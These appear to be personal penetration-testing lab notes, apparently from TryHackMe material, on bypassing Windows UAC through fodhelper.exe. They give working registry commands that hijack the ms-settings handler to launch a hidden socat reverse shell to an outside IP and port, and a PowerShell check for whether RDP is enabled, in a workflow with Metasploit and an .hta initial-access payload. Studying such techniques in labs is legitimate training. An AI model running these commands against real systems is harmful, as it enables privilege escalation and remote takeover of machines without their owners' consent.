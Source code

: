 
##### Modifying Execute `fodhelper.exe` using `RDP`:

- Note that on more updated versions of Windows, `fodhelper.exe` is NOT visible from the remote connection.

![](/assets/img/Pasted image 20230520161643.png)

<u>Bypassing UAC</u>:

```powershell
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Users\noob\Desktop\socat-1.7.3.2-1-i686\socat-1.7.3.2-1-i686\socat.exe TCP:12.0.0.5:4444 EXEC:cmd.exe,pipes"
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f
```

- Reference : `"Bypassing UAC" TryHackMe notes`

- Then, execute `C:\Windows\System32\fodhelper.exe`

		- This is one of the important part since this seems to be invisible from remote connections when enumerating at C:\Windows\System32.

![](/assets/img/Pasted image 20230521190229.png)

**Note: `fodhelper.exe` is NOT visible from the remote connection of the Initial Access. There must be some defense mechanism that makes it impossible to see this executable from a reverse shell connection(remote)**.

![](/assets/img/Pasted image 20230521190453.png)

	- No fodhelper.exe

**Assumption**: `RDP is enabled to begin with but the Attacker with Initial Access has done the Enumeration part of course.`

- Since we are using a reverse shell connection from Metasploit, the Initial Access from the `.hta` file, we will use a ***PowerShell scripting***:

<u>PowerShell Script</u>:

```powershell
if ((Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Terminal Server").fDenyTSConnections -eq 0) { "RDP is enabled" } else { "RDP is disabled" }
```

<u>Output</u>:

![](/assets/img/Pasted image 20230526113655.png)

The script should be run in Metasploit, as that is the appropriate platform for its execution.

<u>Registry Editor</u>:

![](/assets/img/Pasted image 20230526113807.png)
